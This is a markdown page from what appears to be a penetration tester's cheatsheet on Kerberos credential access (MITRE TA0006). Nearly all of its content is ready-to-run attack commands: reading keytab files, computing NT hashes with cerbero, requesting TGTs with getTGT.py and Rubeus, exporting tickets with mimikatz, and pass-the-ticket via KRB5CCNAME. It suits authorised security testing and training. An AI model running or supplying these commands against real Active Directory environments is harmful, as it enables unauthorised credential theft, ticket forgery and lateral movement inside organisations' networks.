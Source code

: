 ```yaml
---
layout: post
title: TA0006 Credentials Forgery - Kerberos
category: pen
parent: cheatsheets
modified_date: 2023-06-08
permalink: /pen/krb
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [prereq](#prereq)
* [ccache-convert](#ccache-convert)
* [get-cache](#get-cache)
* [get-config](#get-config)
* [get-nthash](#get-nthash)
* [get-tgt](#get-tgt)
* [krb-export](#krb-export)
* [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='prereq'></a>prereq

* T1558: Steal and Forge Kerberos Tickets 
* Which OS ? What Creds ?
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)
* Rubeus compilation / [Wiki](https://github.com/GhostPack/Rubeus) :

## <a name='ccache-convert'></a>ccache-convert

* Convert linux to windows krb ticket :
```
ticket-converter $ztarg_user_name.ccache $ztarg_user_name.krb
cerbero convert -i $ztarg_user_name.ccache -o $ztarg_user_name.krb
```

## <a name='get-cache'></a>get-cache
```
cat /etc/krb5.keytab
echo $KRB5_KTNAME
klist -k -Ke 
```

## <a name='get-config'></a>get-config
```
cat etc/krb5.conf
echo $KRB5_CLIENT_KTNAME
```

## <a name='get-nthash'></a>get-nthash
```
# compute nthash from clea-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

## <a name='get-tgt'></a>get-tgt
```
#getTGT.py $zz -hashes $ztarg_user_nthash -no-pass -dc-ip $zdom_dc_ip
cerbero ask -u $zdom_fqdn/$ztarg_user_name --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

## <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='krb-ptt'></a>krb-ptt
```bash
# linux
export KRB5CCNAME="$PWD/$ztarg_user_name.krb" 
```

